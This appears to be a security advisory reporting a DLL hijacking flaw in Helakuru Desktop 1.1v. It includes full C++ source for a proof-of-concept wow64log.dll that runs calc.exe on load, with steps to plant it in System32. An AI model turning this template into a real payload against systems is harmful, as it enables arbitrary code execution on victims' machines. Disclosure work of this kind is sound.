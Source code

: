 **DLL Hijacking Vulnerability in Helakuru Desktop**

**Summary**

The Helakuru Desktop version operates on both 64-bit and 32-bit architectures. During testing, it was identified that the program attempts to load wow64log.dll, which is missing from the application. This results in a "Name not found" error, exposing the program to a DLL Hijacking vulnerability. By crafting a malicious wow64log.dll, arbitrary code execution can be achieved (demonstrated by a simple calculator popup upon loading the DLL into the Helakuru Desktop program).

**Affected Version**

Helakuru Desktop 1.1v

**Steps to Reproduce**

1. Monitor DLL Loading with ProcMon
 * ProcMon showing the CreateFile operation with "Name not found" for wow64log.dll
   ![Pasted image 20240925232040](https://github.com/user-attachments/assets/e3f552d8-bb3c-4c61-87ef-8a1dd5fa9bf0)

2. Create a Malicious wow64log.dll
``` C++
#include <windows.h>
#include <stdio.h>

void LaunchCalculator()
{
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    const char* calcCmd = "C:\\Windows\\System32\\calc.exe";

    if (!CreateProcessA(
        NULL,          
        (LPSTR)calcCmd, 
        NULL,          
        NULL,          
        FALSE,         
        0,             
        NULL,          
        NULL,          
        &si,           
        &pi))          
    {
        printf("CreateProcess failed (%d).\n", GetLastError());
    }
    else
    {
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        LaunchCalculator();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

3. Place the Malicious DLL
 * Copy the custom wow64log.dll into C:\Windows\System32\.

4. Run Helakuru Desktop
 * Launch Helakuru Desktop again. The malicious wow64log.dll will now be loaded into the program, triggering the Calculator as a demonstration of successful DLL injection.
 ![Pasted image 20240925233737](https://github.com/user-attachments/assets/d01f179e-e09d-45e1-8b04-2922102f7b69)

5. Verify DLL Load using ProcMon
 * Reopen ProcMon and observe that the wow64log.dll is successfully loaded this time, confirming that the custom DLL has been executed by the program.
   ![Pasted image 20240925232728](https://github.com/user-attachments/assets/985f373f-9e7a-4d4b-b3d3-0bed98710be4)

**Impact**: This vulnerability allows for arbitrary code execution.



